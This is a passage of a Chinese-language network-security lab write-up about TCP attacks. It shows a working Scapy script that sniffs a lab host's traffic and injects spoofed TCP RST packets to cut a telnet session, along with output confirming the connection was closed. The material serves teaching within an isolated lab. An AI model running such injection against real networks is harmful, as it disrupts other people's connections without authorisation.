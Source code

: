 ```shell
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
```

可以看到，尽管队列已经满了，但还是能正常连接。

## Task 2: TCP RST Attacks on telnet Connections

在宿主机中查看网桥名称：

```shell
$ ifconfig
br-88413f1d34bf: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.9.0.1  netmask 255.255.255.0  broadcast 10.9.0.255
        inet6 fe80::42:65ff:fef4:634e  prefixlen 64  scopeid 0x20<link>
        ether 02:42:65:f4:63:4e  txqueuelen 0  (Ethernet)
        RX packets 4395661  bytes 193408492 (193.4 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4821393  bytes 260362284 (260.3 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

编写 `tcprst.py`：

```python
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
    ip = IP(src=pkt[IP].src, dst=pkt[IP].dst)
    tcp = TCP(sport=23, dport=pkt[TCP].dport, flags="R", seq=pkt[TCP].seq+1)
    pkt = ip/tcp
    ls(pkt)
    send(pkt, verbose=0)

f = f'tcp and src host 10.9.0.5'
pkt = sniff(iface='br-88413f1d34bf', filter=f, prn=spoof_pkt)
```

运行程序：

```shell
attacker-10.9.0.1$ tcprst.py
```

telnet `10.9.0.5`：

```shell
user1-10.9.0.6$ telnet 10.9.0.5
Trying 10.9.0.5...
Connected to 10.9.0.5.
Escape character is '^]'.
Ubuntu 20.04.1 LTS
22c45e0a11e6 login: sConnection closed by foreign host.
```
